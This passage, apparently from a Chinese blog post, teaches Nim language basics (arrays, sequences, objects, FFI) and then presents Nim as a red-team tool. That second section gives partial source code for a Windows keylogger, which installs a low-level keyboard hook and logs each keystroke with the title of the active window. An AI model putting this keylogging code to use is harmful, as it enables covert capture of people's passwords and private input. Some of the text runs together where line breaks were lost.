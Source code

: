     # 5. 高级数组类型# 5.1 数组类型，大小固定不变type    IntArray = array[1..5, int] # 索引从1到5，元素数量为5个  
    var arr: IntArrayarr = [5,10,15,20,25]for index, val in arr:    echo "Index: ", index, " Value = ", val  
    # 5.2 sep序列类型，相当于动态数组或python的listvar arrSep: seq[int] # arrSep = @[5,10]  # 赋值方式和数组一样用[]，但前面多了个@符号echo arrSep# ... 有更多结构体在nim官方文档可查  
    # 6. 引用和指针type                        # 自定义一个对象，相当于结构体    MyObj = object        name: string        age: int  
    var obj1: MyObjobj1 = MyObj(name:"I",age:12) echo obj1echo sizeof(obj1) # sizeof(name) + sizeof(age) = 8  
    # 7. FFI使用,Nim语言最终编译成C语言，所以使用FFI很方便proc strcmp(a, b: cstring): cint {.importc: "strcmp", nodecl.}let cmp = strcmp("C?", "Easy!")echo cmp

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220316204502.png)

 **Nim在蓝军武器中的实例**

 **1\. 键盘记录器**

    使用Nim实现对Windows Api的调用，实现对键盘操作的hook，完成键盘记录器。部分代码如下：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # hook回调函数proc HookCallback(nCode: int32, wParam: WPARAM, lParam: LPARAM): LRESULT {.stdcall.} =     if nCode >= 0 and wParam == WM_KEYDOWN:        var keypressed: string        var kbdstruct: PKBDLLHOOKSTRUCT = cast[ptr KBDLLHOOKSTRUCT](lparam)        var currentActiveWindow = GetActiveWindowTitle()        var shifted: bool = (GetKeyState(160) < 0) or (GetKeyState(161) < 0)        var keycode: Keys = cast[Keys](kbdstruct.vkCode)  
            if shifted and (keycode in KeyDictShift):            keypressed = KeyDictShift.getOrDefault(keycode)        elif keycode in KeyDict:            keypressed = KeyDict.getOrDefault(keycode)        else:            var capped: bool = (GetKeyState(20) != 0)            if (capped and shifted) or not (capped or shifted):                keypressed = $toLowerAscii(chr(ord(keycode)))            else:                keypressed = $toUpperAscii(chr(ord(keycode)))  
            echo fmt"[*] Key: {keypressed} [Window: '{currentActiveWindow}']"    return CallNextHookEx(0, nCode, wParam, lParam)# hook键盘的函数var hook = SetWindowsHookEx(WH_KEYBOARD_LL, (HOOKPROC) HookCallback, 0,  0)

    效果如下：
